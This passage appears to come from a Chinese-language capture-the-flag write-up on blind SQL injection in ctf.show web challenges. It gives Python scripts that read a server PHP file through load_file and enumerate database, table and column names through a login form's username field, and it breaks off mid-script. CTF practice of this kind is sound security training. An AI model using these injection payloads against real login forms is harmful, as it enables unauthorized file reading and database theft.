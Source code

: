 读文件盲注

```python
import requests
import time

url = "http://9cb4c9e3-266b-448b-9b17-b1ad6e41239b.challenge.ctf.show/api/"
flagstr = "}{<>$=,;_ 'abcdefghijklmnopqr-stuvwxyz0123456789"

flag = ""
#这个位置，是群主耗费很长时间跑出来的位置~
for i in range(257,257+60):
    for x in flagstr:
        data={
        "username":"if(substr(load_file('/var/www/html/api/index.php'),{},1)=('{}'),1,0)".format(i,x),
        "password":"0"
        }
        print(data)
        response = requests.post(url,data=data)
        time.sleep(0.3)
        # 8d25是username=1时的页面返回内容包含的，具体可以看上面的截图~
        if response.text.find("8d25")>0:
            print("++++++++++++++++++ {} is right".format(x))
            flag+=x
            break
        else:
            continue
    print(flag)
```

## web 190

给username加上了单引号

```php
$sql = "select pass from ctfshow_user where username = '{$username}'";
```
**登录admin，返回密码错误，使用随意用户名返回用户不存在，说明查询成功时会返回密码错误**，利用这点进行盲注

```python
#author:yu22x
import requests
import string
url="http://46163ae9-ca15-415c-9a1f-d79ea27cf81e.challenge.ctf.show/api/index.php"
s=string.ascii_letters+string.digits
flag=''
for i in range(1,45):
    print(i)
    for j in range(32,128):
        #跑库名
        # data={
        #     'username':f"'||if(ascii(substr(database(),{i},1))={j},1,0)#",
        #     'password':'1'
        # }

        #跑表名
        # data={
        #     'username':f"'||if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))={j},1,0)#",
        #     'password':'1'
        # }

        #跑列名
        # data={
```